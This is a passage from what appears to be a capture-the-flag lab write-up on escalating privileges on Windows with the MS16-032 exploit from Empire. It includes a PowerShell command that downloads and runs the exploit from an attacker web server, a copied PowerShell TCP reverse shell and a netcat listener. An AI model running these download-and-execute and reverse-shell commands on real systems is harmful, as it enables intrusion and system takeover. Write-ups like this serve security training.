 ![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557126841621_image.png)


*good proof of concept if we had an interactive shell with gui. Luckily, EMPIRE does have exploit.*

    /Empire/data/module_source/privesc

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557126958124_image.png)

*viewing “Invoke-MS16032.ps1”*

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557127016535_image.png)

example:

    Invoke-MS16032 -Command "iex(New-Object.WebClient).DownloadString('http://google.com')"

*There was a mistake with the example as it included a “-” where the filename doesn’t. Corrected in above example.*

at very bottom of script copy/paste command:

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557127303043_image.png)

*get rid of “-”, change google to localip with “shell.ps1” and save.*

Copy “Invoke-PowershellTcp.ps1” to “Shell.ps1”

    cp Invoke-PowershellTcp.ps1 Shell.ps1

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557127462708_image.png)

edit to port 1338

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557127505315_image.png)

setup listener for port 1338

    nc -lvnp 1338

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557127590571_image.png)

Target nc session download Invoke-MS16032.ps1

    IEX(New-Object.WebClient).DownloadString('http://10.10.14.17:8000/Invoke-MS16032.ps1')

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557127884986_image.png)

download it our webserver:

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557127926038_image.png)

(returns)

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557127993789_image.png)

# Root&Loot
on port “1338” the Shell.ps1 is loaded
